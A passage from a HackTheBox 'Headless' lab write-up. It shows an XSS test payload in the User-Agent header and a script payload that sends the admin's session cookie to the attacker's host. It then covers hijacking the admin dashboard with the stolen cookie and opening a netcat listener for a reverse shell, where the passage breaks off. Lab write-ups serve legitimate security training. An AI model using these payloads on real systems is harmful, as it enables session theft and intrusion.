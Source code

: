 Let's test for **XSS injection** by modifying the **User-Agent** with payload:

```html
<script>alert(0);</script>
```

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/bs_support_script.png)

The alert executes successfully:

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/xss_vulnerability_detected.png)

Thus, the application is vulnerable to **XSS**.

---
### 3.2 Cookie Stealing via XSS

We can steal the admin’s session cookie with the following payload:

```html
<script>var i=new Image(); i.src="http://10.10.14.7/?cookie=" + document.cookie</script>
```

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/bs_sending_cookie.png)

Start a Python server and wait for incoming requests:

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/cookies_receive.png)

We receive two cookies:
- Our own session
- An **admin session** cookie

```
InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs
ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0
```

We replace our cookie in the browser with the admin’s:

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/admin_dashboard.png)

We now have access to the Dashboard.

---
### 3.3 Reverse Shell Injection

On the dashboard, selecting *Generate Report* sends a request with a `date` parameter:

![](GitHubv2/HackTheBox/EASY/Headless/screenshots/admin_dashboard_generate_report.png)
![](GitHubv2/HackTheBox/EASY/Headless/screenshots/bs_generate_report_original.png)

Open a Netcat listener:

```bash
nc -nlvp 443
```
